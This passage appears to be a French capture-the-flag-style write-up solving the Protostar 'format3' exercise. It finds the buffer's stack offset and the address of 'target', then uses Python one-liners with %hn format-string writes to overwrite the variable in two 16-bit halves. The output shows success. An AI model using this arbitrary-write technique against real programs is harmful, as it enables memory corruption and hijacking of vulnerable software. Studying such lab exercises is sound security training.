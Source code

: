 Je peux placer un breakpoint dans `printbuffer` au moment du `printf` pour observer la pile. J'obtiens ainsi une indication de où se trouve mon buffer pour ajuster la position dans ma chaine de format.

Notez qu'on pourrait aussi l'obtenir via brute force en relançant le binaire autant de fois que nécessaire.

```
user@protostar:/opt/protostar/bin$ ./format3
AAAA%12$08x
AAAA41414141
target is 00000000 :(
```

Au lieu d'écraser le dword complet en mémoire, on va écraser deux shorts (16 bits). L'un pour les octets de poids fort de la variable `target` et l'autre pour ceux de poids faible. On le fait avec le format `%hn`.

La valeur attendue est `0x01025544`. Une moitiée correspond à la valeur 258 et l'autre à 21828 :

```python
>>> import struct
>>> struct.pack("<I", 0x01025544)
b'DU\x02\x01'
>>> struct.unpack("<H", b"\x02\x01")
(258,)
>>> struct.unpack("<H", b"DU")
(21828,)
```

On choppe la valeur de `target` :

```
user@protostar:/opt/protostar/bin$ objdump -t format3 | grep target
080496f4 g     O .bss   00000004              target
```

Commençons par écrire les octets de poids forts (on commence toujours par la valeur la plus petite et dans ce cas précis ce sont les octets de poids forts) :

```bash
user@protostar:/opt/protostar/bin$ python -c 'import struct; print struct.pack("<I", 0x080496f4+2) + "A" * 254 + "%12$hn"' > /tmp/input 
user@protostar:/opt/protostar/bin$ ./format3 < /tmp/input 
�AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
target is 01020000 :(
```

Ca fonctionne. On part donc sur les octets de poids faible. Il faut penser à retrancher des 21828 octets le nombre de caractères qui ont été affichés précédemment :

```bash
user@protostar:/opt/protostar/bin$ python -c 'import struct; print struct.pack("<I", 0x080496f4+2) + struct.pack("<I", 0x080496f4)+ "A" * 250 + "%12$hn" + "%021570x" + "%13$hn"' > /tmp/input 
user@protostar:/opt/protostar/bin$ ./format3 < /tmp/input 
��AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA--- snip ---00000000000000000
you have modified the target :)
```
